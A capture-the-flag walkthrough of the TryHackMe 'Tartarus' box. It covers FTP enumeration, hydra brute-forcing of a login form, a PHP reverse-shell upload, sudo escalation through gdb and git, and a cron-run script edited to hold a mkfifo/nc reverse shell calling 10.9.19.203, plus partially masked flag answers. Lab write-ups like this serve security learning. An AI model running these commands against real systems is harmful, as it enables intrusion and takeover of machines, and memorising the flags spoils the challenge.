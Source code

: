 # TryHackMe Tartarus

**This is an beginner box based on simple enumeration of services and basic privilege escalation techniques. Based jake**

## Task-1 Tartarus

* *Enumeration* - Doing nmap scan gave us 21,22,80 port open. 

* *Port -21* : FTP allowed us anonymous login. So typing command '*ftp IP*' and then 'anonymous' as name and password gave us a successful login. After that we can see a file named 'test.txt' and a directory '...' in the FTP shell. Get the .txt file on your shell using command '*get test.txt*'. Now go to '...' directory. It again gave a same named directory. Again going into that gave us another file named 'yougotgoodeyes.txt'. Get this file on your shell.

* Now see the content of test file. It just gave us 'vsftpd test file'. Now see for yougotgoodeyes.txt and it gives us a directory. Now we shall go on browser.

* *Port -80* : Open the link in browser. It gaves a default Apache2 page. On trying 'robots.txt' on the site gave us another directory along with a username : 'd4rckh'.

* Going on the above directory gave us two files 'credentials.txt' and 'userid'. Get these files on your machine using wget. 

* Also from FTP we got a directory. Opening that gave us a login page. So we have a list of usernames, password and a login page. Simple idea is to use hydra for password cracking. 

* Type the command ' *hydra -L userid -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!* '.  This will give username. 

* Now to crack password we will use command ' *hydra -l userFromAboveResult -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!* '. This will give us our password.

* Now login into the site using these creds. After that it gives us a uploading file option. We can upload our php reverse shell there. After uploading that start you nc listener. After that go to /<directoryWhihcWeGotFromFTP>/images/uploads/phpRevShell.php and you will get your shell.

* After logging into the shell we can see that we are 'www-data'. Go to '/home'	to see the list of users. Now type 'sudo -l' and we see that a user 'thirtytwo' can run gdb command. Now go to https://gtfobins.github.io/ to search for gdb sudo and we find one. Now type this command ' *sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex q* '. Now we are 'thirtytwo'.

* Again type 'sudo -l' and we see that 'd4rckh' can run git. Again go to https://gtfobins.github.io/ to search for git sudo. Now type ' *sudo -u d4rckh /usr/bin/git -p help config* ' and then type '!bash' to gain a bash shell. Now go to '/home/d4rckh'. In there we see a 'cleanup.py' file and 'user.txt' file  which is your user flag.

* We can edit this file to gain root shell. Also if you see '/etc/crontab' we can see that cleanup.py is running as a cronjob. Now edit .py file and type ' *os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.19.203 4444 >/tmp/f')* ' in the 'try' block and simultaneously start nc listener in other window. Wait for some time and your root shell will be spawned.

*  Now type ' *cat /root/root.txt* ' to gain root flag.

## 1. User Flag
Answer : 0f7dbb2243e692e3ad222b**********

## 2. Root Flag
Answer : 7e055812184a5fa5109d5d**********
